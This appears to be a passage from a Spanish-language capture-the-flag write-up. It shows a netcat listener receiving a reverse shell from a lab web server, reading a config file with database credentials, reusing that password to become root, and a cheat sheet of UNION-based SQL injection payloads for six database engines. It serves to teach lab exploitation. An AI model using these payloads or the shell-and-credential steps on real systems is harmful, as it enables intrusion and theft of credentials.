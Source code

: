 ```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nc -nlvp 4646  
listening on [any] 4646 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.116] 42720
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data
www-data@validation:/var/www/html$ ls
ls
account.php
config.php
css
index.php
js
shell.php
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
www-data@validation:/var/www/html$
```

Con esa contraseña obtenida es posible acceder al usuario root con ```su root```.

### Resumen con UNION (considerando 2 columnas)

#### Consultar versión

* SQL Server
    ```sql
    ' UNION SELECT @@VERSION, NULL-- 
    ```
* MySQL
    ```sql
    ' UNION SELECT VERSION(), NULL--
    ```
* Oracle
    ```sql
    ' UNION SELECT banner, NULL FROM v$version WHERE banner LIKE 'Oracle%'--
    ```
* PostgeSQL
    ```sql
    ' UNION SELECT version(), NULL--
    ```
* SQLite
    ```sql
    ' UNION SELECT sqlite_version(), NULL--
    ```
* IBM DB2
    ```sql
    ' UNION SELECT SERVICE_LEVEL, VERSIONNUMBER FROM TABLE (sysproc.env_get_inst_info()) AS SYSTEMINFO--
    ```
